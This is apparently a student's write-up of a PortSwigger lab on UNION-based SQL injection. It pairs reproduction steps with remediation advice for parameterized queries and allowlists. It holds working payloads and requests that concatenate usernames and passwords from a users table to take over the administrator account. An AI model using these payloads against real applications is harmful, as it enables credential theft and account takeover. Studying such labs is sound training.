


# SQL Injection UNION Attack — Retrieving Multiple Values in a Single Column

> UNION-based SQL injection exploitation against a single string-compatible column, using database string concatenation to extract multiple fields (username and password) from the `users` table in a single query.


---

## Table of Contents

- [Overview](#overview)
- [Scope & Objectives](#scope--objectives)
- [Methodology](#methodology)
- [Findings](#findings)
- [Risk Summary](#risk-summary)
- [Attack Chain](#attack-chain)
- [Tools & Environment](#tools--environment)
- [Evidence](#evidence)
- [Remediation](#remediation)
- [Lessons Learned](#lessons-learned)
- [References](#references)
- [Author](#author)

---

## Overview

SQL injection via UNION-based attacks is well-documented, but the technique becomes constrained when only one column in the original query accepts string data. In this scenario, an attacker cannot simply map one target field per column — both `username` and `password` must be extracted through a single string-compatible column.

This lab exercise, sourced from the PortSwigger Web Security Academy, demonstrates how database-native string concatenation operators can be used to collapse multiple fields into a single column value, bypassing the one-string-column constraint. The injection point is the product category filter endpoint, and the target is the `users` table containing plaintext credentials.

The lab was solved by confirming a two-column query structure with only the second column accepting strings, constructing a concatenation payload using the `||` operator, and recovering the administrator credential from the formatted output.

> **Key Outcome:** Retrieved all usernames and passwords concatenated into a single response column using the `||` string concatenation operator, enabling administrator account compromise against an authorized lab environment.

---

## Scope & Objectives

### Objectives

- Enumerate the number of columns returned by the vulnerable query
- Identify which columns are string-compatible using targeted NULL/literal probing
- Construct a UNION SELECT payload that concatenates `username` and `password` into a single output column
- Authenticate as the `administrator` user using the recovered credential

### In Scope

| Target | Description | Type |
|--------|-------------|------|
| `https://0ae400cc032087e380a75dc5003000e9.web-security-academy.net` | PortSwigger Web Security Academy hosted lab instance | Web Application |
| `/filter?category=` | Product category filter endpoint — injection point | HTTP Parameter |
| `users` table | Target table containing `username` and `password` columns | Database Object |

### Out of Scope

- Any system or endpoint outside the assigned lab instance
- Exploitation of other vulnerability classes present or absent in the application
- Privilege escalation beyond authentication as `administrator`

### Engagement Type

> **Type:** Gray-box (table name, column names, and string-column constraint provided as part of the lab specification)
> **Authorization:** PortSwigger Web Security Academy — fully sanctioned training environment
> **Duration:** Single session

---

## Methodology

The methodology followed the OWASP Testing Guide (v4.2) — `WSTG-INPV-05: Testing for SQL Injection` — with specific reference to UNION-based data extraction techniques requiring string concatenation due to column type constraints.

### Phase 1 — Column Count and Type Enumeration

The `category` parameter was identified as the injection point. A two-column query was confirmed using incremental NULL-based UNION probing.

String compatibility was tested per column. The first column rejected string input; the second column accepted it, as confirmed by the following payload returning `abc` in the application response:

```sql
' UNION SELECT NULL,'abc'--
```

**URL-encoded request:**

```
GET /filter?category=Corporate+gifts'+UNION+SELECT+NULL,'abc'-- HTTP/1.1
Host: 0ae400cc032087e380a75dc5003000e9.web-security-academy.net
```

This established a constraint: only one string-compatible column is available. A direct mapping of `username` to one column and `password` to another — as used in the prior lab — is not possible here.

### Phase 2 — Concatenation-Based Extraction

To extract both `username` and `password` through the single available string column, the `||` concatenation operator was used to merge both fields with a delimiter (`~`) into a single string value per row.

**Extraction payload:**

```sql
' UNION SELECT NULL, username||'~'||password FROM users--
```

This constructs one output string per user row in the format `username~password`, rendered within the application response alongside normal product listings.

**URL-encoded request:**

```
GET /filter?category=Corporate+gifts'+UNION+SELECT+NULL,username||'~'||password+FROM+users-- HTTP/1.1
Host: 0ae400cc032087e380a75dc5003000e9.web-security-academy.net
```

### Phase 3 — Credential Recovery and Authentication

The response returned one concatenated string per user row. The `administrator` entry and its password were identified by prefix. These credentials were submitted through the application's standard login interface, completing the lab objective.

---

## Findings

### Finding F-001: UNION-Based SQL Injection with String Concatenation in Category Filter Parameter

| Field | Detail |
|-------|--------|
| **ID** | F-001 |
| **Severity** | [CRITICAL] |
| **CVSS v3.1 Score** | 9.1 |
| **CVSS Vector** | `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N` |
| **CWE** | CWE-89: Improper Neutralization of Special Elements in an SQL Command |
| **OWASP Category** | A03:2021 — Injection |
| **MITRE ATT&CK TTP** | T1190 — Exploit Public-Facing Application |
| **Affected Component** | `GET /filter?category=` — HTTP query parameter |

#### Description

The `category` parameter is passed unsanitized into a backend SQL query. A UNION injection payload appends an attacker-controlled SELECT statement to the original query. Because only the second of two query columns accepts string data, multiple target fields are extracted by concatenating them into a single string using the database's native `||` operator, separated by a recognizable delimiter. The combined field values are rendered in the HTTP response, providing full credential visibility to an unauthenticated attacker.

#### Technical Impact

- Extraction of all rows from the `users` table, including `username` and `password` fields, via a single HTTP request
- Administrator credential recovery enabling full authenticated access
- Potential enumeration of the full database schema and accessible table data under the current database session's privilege level

#### Business Impact

- Unauthenticated administrative account compromise
- Full read access to application user data constitutes a data breach under GDPR and Ghana's Data Protection Act 2012
- Trust and reputational damage consequent to credential exposure affecting all registered users

#### Proof of Concept

**Step 1 — Confirm single string-compatible column:**

```
GET /filter?category=Corporate+gifts'+UNION+SELECT+NULL,'abc'-- HTTP/1.1
```

Expected: `abc` rendered in the response. First column with a string literal returns an error or no output — confirming only column two accepts strings.

**Step 2 — Extract credentials via concatenation:**

```
GET /filter?category=Corporate+gifts'+UNION+SELECT+NULL,username||'~'||password+FROM+users-- HTTP/1.1
```

Expected: Response body contains rows formatted as `username~password` for every entry in the `users` table.

**Step 3 — Authenticate as administrator:**

Locate the `administrator~[password]` entry in the response. Submit credentials at the application login page. Successful authentication confirms account takeover.

#### Reproduction Steps

1. Confirm injection point by injecting a single quote and observing a behavioral change
2. Enumerate columns: `UNION SELECT NULL--`, `UNION SELECT NULL,NULL--` until no error
3. Test each column for string compatibility by substituting `NULL` with a string literal one position at a time
4. Identify the single string-compatible column position
5. Use `col||'~'||col2` syntax to collapse multiple fields into one output string
6. Submit payload; parse the delimited output from the response

#### Retest Criteria

Finding is remediated when:
- Injecting `' UNION SELECT NULL,'abc'--` returns no injected output and no SQL error propagation to the response
- Code review confirms parameterized query usage at all database interaction points
- The `category` parameter input is validated against an allowlist of known category values

---

## Risk Summary

| ID | Severity | CVSS | Component | Impact | Priority |
|----|----------|------|-----------|--------|----------|
| F-001 | [CRITICAL] | 9.1 | `/filter?category=` parameter | Full credential extraction via single-column concatenation, admin account takeover | [IMMEDIATE] |

---

## Attack Chain

```
[1] Unauthenticated HTTP GET request to /filter?category=
        |
        v
[2] Inject single quote — behavioral change confirms SQL injection
        |
        v
[3] UNION SELECT NULL,NULL -- → no error
    Column count confirmed: 2
        |
        v
[4] UNION SELECT NULL,'abc' --
    'abc' returned in response → column 2 is string-compatible
    Column 1 rejects string → only one usable column
        |
        v
[5] UNION SELECT NULL, username||'~'||password FROM users --
    Concatenated rows returned: administrator~[password], ...
        |
        v
[6] Submit administrator credentials at /login
    → Administrative access achieved
```

**MITRE ATT&CK Mapping:**

| Tactic | Technique | ID |
|--------|-----------|----|
| Initial Access | Exploit Public-Facing Application | T1190 |
| Credential Access | Unsecured Credentials | T1552 |
| Privilege Escalation | Valid Accounts (Admin) | T1078.001 |

---

## Tools & Environment

| Tool / Technology | Version | Purpose |
|-------------------|---------|---------|
| Web Browser (Chromium) | Current | Manual HTTP request construction and response inspection |
| PortSwigger Web Security Academy | N/A | Authorized lab hosting platform |
| URL encoding (manual) | N/A | Encoding UNION and concatenation payloads for URL delivery |

> Note: Exploitation was performed manually without automated tools to demonstrate conceptual understanding of column-constrained UNION injection and concatenation-based extraction.

---

## Evidence

### Single String-Compatible Column Confirmed and Credentials Extracted


*Caption: Payload `UNION SELECT NULL,'abc'--` confirmed only the second column accepts string data. Follow-up payload `UNION SELECT NULL,username||'~'||password FROM users--` returned all user credentials concatenated in the format `username~password` within the product listing response.*

### Lab Completion — Administrator Login


*Caption: Administrator credentials were identified from the delimited concatenation output and submitted at the login page. PortSwigger lab marked as solved.*

---

## Remediation

### R-001: Replace Dynamic Query Construction with Parameterized Queries

**Priority:** [IMMEDIATE]

The root cause is unsanitized user input interpolated directly into a SQL query string. Parameterized queries eliminate this attack vector at the source.

**Vulnerable pattern (illustrative):**

```python
# Python / Django — vulnerable
category = request.GET.get('category')
query = f"SELECT * FROM products WHERE category = '{category}'"
cursor.execute(query)
```

**Remediated pattern — raw cursor:**

```python
# Parameterized — safe
category = request.GET.get('category')
query = "SELECT * FROM products WHERE category = %s"
cursor.execute(query, [category])
```

**Remediated pattern — Django ORM (preferred):**

```python
from products.models import Product
products = Product.objects.filter(category=request.GET.get('category'))
```

**Retest criteria:** Submit `' UNION SELECT NULL,'a'--` as the `category` value. The injected string must not appear in the response under any condition.

### R-002: Enforce Allowlist Validation on the Category Parameter

**Priority:** [SHORT-TERM]

Validate the `category` parameter against a predefined list of known valid categories. Reject any value not present in the allowlist before it reaches the query layer.

```python
VALID_CATEGORIES = {'Gifts', 'Corporate gifts', 'Accessories', 'Food & Drink', 'Lifestyle'}

def get_products_by_category(category):
    if category not in VALID_CATEGORIES:
        raise ValueError("Invalid category")
    return Product.objects.filter(category=category)
```

### R-003: Enforce Least Privilege on the Database Account

**Priority:** [SHORT-TERM]

The application database user should have `SELECT` access only on tables required for application operation. It must not have access to `users`, system tables, or any schema object outside the application's minimum required scope.

### R-004: Suppress Verbose SQL Errors in HTTP Responses

**Priority:** [PLANNED]

Ensure SQL errors are never propagated to HTTP responses. Log errors server-side only. Verbose error output reduces attacker effort during enumeration and column type probing.

---

## Lessons Learned

**Skill developed: Single-column UNION injection via database string concatenation**

This lab introduced a constraint not present in the prior UNION attack lab (`09-sqli-union-data-extraction`): only one of the two query columns accepts string data. Key takeaways:

1. Column type compatibility must be tested independently per column position — a total string-compatible count of one does not indicate which position is usable
2. The `||` operator (standard SQL / Oracle / PostgreSQL) collapses multiple fields into a single string; the chosen delimiter must not appear naturally in the target data to allow reliable parsing of the output
3. MySQL uses `CONCAT(username, '~', password)` rather than `||` — the concatenation operator is DBMS-specific and must be adapted based on backend fingerprinting
4. Single-column constraints do not prevent multi-field extraction; they require a different payload structure, not a different technique class

**Comparison with prior lab:**

| Aspect | Lab 09 — Data Extraction | Lab 10 — Multiple Values in Single Column |
|--------|--------------------------|-------------------------------------------|
| String-compatible columns | 2 | 1 |
| Extraction approach | Direct field-per-column mapping | Concatenation into single column |
| Payload complexity | Lower | Higher — delimiter and concat operator required |
| DBMS dependency | Lower | Higher — `||` vs `CONCAT()` varies by backend |

**Tags:** `sql-injection` `union-attack` `string-concatenation` `single-column-extraction` `owasp-a03` `cwe-89` `portswigger-labs`

---

## References

- [OWASP Testing Guide v4.2 — WSTG-INPV-05: Testing for SQL Injection](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection)
- [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [CWE-89: Improper Neutralization of Special Elements used in an SQL Command](https://cwe.mitre.org/data/definitions/89.html)
- [MITRE ATT&CK T1190 — Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/)
- [CVSS v3.1 Calculator — NVD](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator)
- [PortSwigger Web Security Academy — SQL Injection UNION Attacks](https://portswigger.net/web-security/sql-injection/union-attacks)
- [PortSwigger — Retrieving Multiple Values in a Single Column](https://portswigger.net/web-security/sql-injection/union-attacks#retrieving-multiple-values-within-a-single-column)

---

## Author

**Michael Asante Anim** | `0x1aerixis`
BSc Cyber Security — University of Mines and Technology (UMaT), Tarkwa, Ghana

[](https://github.com/anim-michael-asante)
[](https://linkedin.com/in/michael-asante-anim)
[](https://tryhackme.com/p/0x1aerixis)
[](https://x.com/0x1aerixis)
[](https://discord.com/users/0x1aerixis)

> *"Built in the lab. Documented for the field."*

---

> **Disclaimer:** All work documented in this repository was conducted in authorized, isolated lab environments or sanctioned CTF platforms. No unauthorized systems were accessed. This project is intended for educational and portfolio purposes only.
